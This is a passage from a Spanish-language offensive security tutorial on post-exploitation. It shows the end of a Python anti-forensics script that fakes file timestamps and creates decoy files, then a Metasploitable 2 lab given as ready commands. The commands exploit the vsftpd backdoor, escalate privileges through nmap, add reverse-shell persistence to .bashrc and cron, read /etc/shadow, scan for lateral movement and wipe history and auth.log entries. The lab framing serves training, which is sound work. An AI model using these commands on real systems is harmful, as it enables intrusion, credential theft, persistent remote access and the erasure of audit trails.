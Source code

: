 ```python
        
        # Timestamp aleatorio
        random_time = time.time() - random.randint(86400, 2592000)
        os.utime(filepath, (random_time, random_time))
    
    print(f"[+] {count} archivos señuelo creados en {directory}")

if __name__ == "__main__":
    # Ejemplo de uso
    # secure_delete("/tmp/backdoor.txt")
    # modify_file_metadata("/tmp/backdoor", "/bin/ls")
    # create_decoy_files("/tmp/", 15)
    pass
```

## 🧪 Laboratorio Completo de Post-Explotación

### Ejercicio: Metasploitable 2 - Post-Explotación Completa

```bash
# 1. Obtener acceso inicial
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <METASPLOITABLE_IP>
exploit

# 2. Escalada de privilegios
find / -perm -4000 2>/dev/null
/usr/bin/nmap --interactive
!sh

# 3. Establecer persistencia
echo 'bash -i >& /dev/tcp/192.168.1.50/4444 0>&1' >> /root/.bashrc
crontab -e
# Agregar: */10 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.50/4444 0>&1'

# 4. Recolección de información
cat /etc/passwd
cat /etc/shadow
find /home -name "*.txt" -exec cat {} \;

# 5. Movimiento lateral
nmap -sn 192.168.1.0/24
smbclient -L //192.168.1.1

# 6. Covering tracks
history -c
echo "" > ~/.bash_history
sed -i '/192.168.1.50/d' /var/log/auth.log
```

## 📈 Mejores Prácticas de Post-Explotación
